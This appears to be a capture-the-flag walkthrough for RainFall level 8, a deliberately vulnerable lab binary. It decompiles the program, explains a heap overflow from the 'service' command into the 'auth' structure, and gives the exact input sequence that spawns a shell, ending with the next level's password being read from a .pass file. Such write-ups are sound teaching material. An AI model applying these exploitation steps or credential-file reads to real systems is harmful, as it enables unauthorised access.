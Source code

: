 # Level 08 Walkthrough

## Binary analysis

The binary manages two pointers, `auth` and `service`, and processes commands: `auth`, `reset`, `service`, and `login`. The goal is to manipulate the `auth` structure so that the check `*(auth + 0x20) != 0` passes, which allows us to get a shell when issuing the `login` command.

### Key decompiled code

- **auth**
    ```c
    if (strncmp(buf, "auth ", 5) == 0) {
        auth = malloc(4);
        *auth = 0;
        // ...
        strcpy(auth, user_input); // possible overflow
    }
    ```
- **service**
    ```c
    if (strncmp(buf, "service", 7) == 0) {
        service = strdup(user_input); // can overflow into auth
    }
    ```
- **login**
    ```c
    if (strncmp(buf, "login", 5) == 0) {
        if (*(auth + 0x20) != 0) {
            system("/bin/sh");
        } else {
            printf("Password:\n");
        }
    }
    ```
- **main loop**
    ```c
    while (fgets(buf, 0x80, stdin)) {
        // handle commands: auth, reset, service, login
    }
    ```

## Exploitation

We use the `auth` command to allocate the structure, then the `service` command with a long string to overflow and set the 0x20th byte of the `auth` structure to a non-zero value. Finally, we use the `login` command to trigger the shell.

```c
if (*(auth + 0x20) != 0) {
    system("/bin/sh");
}
```

However, the `auth` buffer is only 4 bytes long, so we cannot reach offset 0x20 directly with the `auth` command. Instead, we use the `service` command, which copies our input into a buffer that is allocated right after `auth` in memory. By sending a string of 32 characters (the padding) with the `service` command, we overflow the `auth` buffer and set the byte at offset 0x20 to a non-zero value (for example, 'A').

**Payload:**

- Send `auth ` to allocate the buffer.
- Send `service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` (32 'A's) to overflow and set the 0x20th byte.
- Send `login` to trigger the shell.

This padding ensures that the check `*(auth + 0x20) != 0` will succeed, giving us a shell.

Example commands:

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Result

After running the exploit, we get the password for level9:

```
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
